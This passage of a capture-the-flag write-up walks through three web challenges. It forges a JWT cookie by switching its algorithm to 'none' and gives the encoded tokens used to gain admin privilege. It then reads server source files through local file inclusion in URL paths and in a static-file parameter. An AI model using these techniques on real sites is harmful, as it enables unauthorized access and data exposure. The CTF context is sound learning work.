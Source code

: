 ```

And the last one is the signature which is unreadable

In the data section, the `privilege` field is interested to upgrade the Harry's account as admin but we can't regenerate the signature

However, it is possible to change the encryption algorithm from `HS256` to `none` and remove the signature section and verification

So we can change the cookie by `{"typ":"JWT","alg":"none"}{"user": "Harry", "privilege": 1}` `(eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0=.eyJ1c2VyIjogIkhhcnJ5IiwgInByaXZpbGVnZSI6IDF9.)` and it work !

Finaly, we change the `privilege` by `2`, `{"typ":"JWT","alg":"none"}{"user": "Harry", "privilege": 2}` `(eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0=.eyJ1c2VyIjogIkhhcnJ5IiwgInByaXZpbGVnZSI6IDJ9.)`

Refresh and we can open the admin page and read the flag: `ractf{j4va5cr1pt_w3b_t0ken}`

## Finding server information
```See if you can find the source, we think it's called app.py```

On the same website, we can play 3 different videos with urls:

```
http://url/watch/HMHT.mp4
http://url/watch/TIOK.mp4
http://url/watch/TCYI.mp4
```

The page watch seems has a rule which transform `http://url/watch/movie.mp4` in `http://url/watch?path=movie.mp4`

We can try if a Local File Inclusion is possible with `http://url/watch/app.py`

Bingo, in source code of the page we can read:

``` html
<video controls src="data:video/mp4;base64,ractf{qu3ry5tr1ng_m4n1pul4ti0n}"></video>
```

The flag is: `ractf{qu3ry5tr1ng_m4n1pul4ti0n}`

## Insert witty name
```
Having access to the site's source would be really useful, but we don't know how we could get it.
All we know is that the site runs python.
```

In the source of page `http://url`, we can read:
``` html
<link rel="stylesheet" href="/static?f=index.css">
```

There seems to have a Local File Inclusion, the page `http://url/static?` without file argument return an error page:
```
TypeError

TypeError: expected str, bytes or os.PathLike object, not NoneType
Traceback (most recent call last)

[...]

File "/usr/local/lib/python3.8/site-packages/flask/app.py", line 1936, in dispatch_request
    return self.view_functions[rule.endpoint](**req.view_args)
File "/srv/raro/main.py", line 214, in css
```